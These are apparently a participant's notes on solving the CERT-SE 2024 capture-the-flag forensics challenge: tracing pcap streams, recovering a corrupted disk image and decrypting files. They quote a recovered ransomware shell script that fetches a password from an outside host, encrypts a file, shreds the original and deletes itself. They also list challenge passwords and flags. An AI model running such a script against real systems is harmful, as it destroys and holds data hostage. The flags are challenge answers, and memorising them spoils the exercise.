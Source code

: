 #CTF
### Original file: CERT-SE_CTF2024.pcap

Identified ip/mac addresses on file:
An4lys3r/Employee 1: 	IP: 10.0.0.10 MAC: 52:54:00:16:f6:1f
D3f3nd3r/Employee 2: 	IP: 10.0.0.20 MAC: 52:54:00:11:19:a7
??: 			IP: 10.0.0.30 MAC: 52:54:00:52:dc:1f
Server?:		IP: 10.0.0.50 MAC: 52:54:00:6f:d7:65

Suspicious ip address: 195.200.72.82
FTP packets to presumed server shows the credentials to this server.
User: anonymous 
Pass: NcFTP@


#### Stream 0:

stream 0 and 1 are the same but 10.0.0.10 is involved in stream 1 and .20 in stream 0. .30 is involved in both.

Holds a conversation from employees discovering they have been hacked. Same on stream 1, only from the other employees perspective.

Found first flag on packet 1742.
Second on packet 4.

packet 147 the person in the datacenter sends over ransom note. /home/user/emergency_net/DCC/RANSOM_NOTE.gz
SHA-256 checksum to go along: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909

Someone posted a wordlist scraped from their public website, and ranting about recording web traffic from workstation CTF-PC01.

IP they found suspicious. Involved in [[Attacks on networks#C2 or C&C |C2]] and exfiltration activities. 195.200.72.82

#### Stream 2:
ransom
#### Stream 3:
corp_net1.pcap file sent to .20

#### Stream 4:
Packet 391 seems to have something to do with programming c++ buffer error and an error from a python library.
Packet 394 is very strange. Maybe has something to do with c++?
Packet 384/977 has something about a puzzle.exe
Packet 981 has some more whatyoulookingat.com and also polisen.se
Encrypted data but at the bottom is alot of "whatyoulookingat.com".
Also packet 1030 has alot of windows directory from recycle bin. and also whatyoulookingat.com, cloudflare.net and sapo.se.cdn.
They seem to have extracted Recycle-Bin.zip here also.

Extracted corp_net1.pcap here.

#### Stream 5:

corp_net2.pcap file sent to .20

#### Stream 6:

Looking at stream 3 where a request was made to get corp_net2.pcap, packet that said "ok to send data" was nr. 1128se and first packet of stream 6 was 1132 I figured this was probably
that .pcap file so i saved it as raw data with file extention .pcap, I was correct.

#### Stream 7:

disk1.img.gz file is sent to .20

#### Stream 8:

extracted file disk1.img.gz. Altough it cannot be decompressed with winrar.

#### Stream 10:

Seems to be the wordlist. 
Extracted file.

Extracted file: corp_net2.pcap

Extracted file: disk1.img.gz

## File disk1.img.gz

It was corrupted, but using [[Pen testing tools#Gzrecover|gzrecover]] and then [[Pen testing tools#TestDisk|testDisk]] I was able to extract 4 files.
1. secret
2. secret.encrypted
3. sslkeylogfile
4. ransomware.sh
After inspecting the files I found that sslkeylogfile contained some ssl keys for TLS 1.3.
Ransomware.sh contained a shell script that encrypted secret using -aes-128-cbc cipher with [[Pen testing tools#Openssl|openssl]], outputting the secret.encrypt file and then shredded the secret file with 'shred' command before removing it and the sslkeylogfile.
### ransomware.sh
`#!/bin/bash 
`password=$(SSLKEYLOGFILE=sslkeylogfile curl --insecure https://whatyoulookingat.com/1.txt)
`openssl enc -aes-128-cbc -pass pass:$password -in secret -out secret.encrypted
`shred secret
`rm secret
`rm sslkeylogfile
`rm $0

The secret file is probably a lost cause, I will instead focus on cracking the secret.encrypt file since I know aes128 was used and the sslkeylogfile previously extracted is probably going to help me decrypt the traffic where the password was obtained from whatyoulookingat.com.

## ransomNote.gz

After neglecting this file I ran gzrecover on it and got a ASCII text file. But the file was corrupted. The checksum is wrong, the original conversation the had the checksum provided: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909.

## corp_net1.pcap
### secret.encrypted

Here I found the password for the secret.encrypted file. Since I knew from the ransomware.sh script that the password was obtained from `whatyoulookingat.com/1.txt`, I searched for this as a regular expression in packet details. This led me to tcp stream 53 in this file. And packet 1920 had a payload of 17 bytes which had the password. 

	Password: pheiph0Xeiz8OhNa

Now I could decrypt the file. 
```
openssl enc -d -aes-128-cbc -in secret.encrypted -out secret.txt -pass pass:pheiph0Xeiz8OhNa
```
And in secret.txt was CTF\[OPPORTUNISTICALLY]

### puzzle.exe

After tls decryption of this file I found on stream 59 that puzzle.exe was extracted. This is most likely the file transmitted on stream 60.
This was correct, it is a puzzle.
Solved the puzzle, gave nothing, must be something more about it though.

#### Reverse engineer
#SRE 
Running `file puzzle.exe` in [[SRE Tools#Git bash|gitbash]] tells that it is a `PE32+ excecutable (GUI) x86-64, for MS Windows, 6 sections.`

Decompiling with [[SRE Tools#IDA|IDA]]

### recycle-bin.zip

Stream 63 mentions transferring file Recycle-bin.zip. Extracted on stream 64.
The files seem to only reference where they where on the original computer. 
But there was an HFS HTTP file server .exe under the name $RL7SXXI.exe here where I could add the files and view them in the browser.

Alot of interesting files here. Might have to use IDA to see what $ID8WDX0.exe and $IL7SXXI.exe does because windows wont let me run it.

$RCXHUFJ.zip has NewFileTime.exe.

$RZ8ZSGB.zip holds file "Biografi" with 69 .txt files, each of 1kb size. All files is just one word of "Lorem ipsum" in order it seems.

$IZ8ZSGB.zip, $ICXHUFJ.zip, $IWOD8TX.zip is damaged, using gzrecover got me nowhere. They all have 0x00 0x02 as magic number in beginning of file.
### archive

Stream 66 mentions transferring file archive. Extracted on 67.

## corp_net2.pcap
### unauthorized html

Stream 57 had an html file where something was unauthorized.
### FLAGS:

CTF\[E65D46AD10F92508F500944B53168930]
CTF\[AES128]
CTF\[OPPORTUNISTICALLY]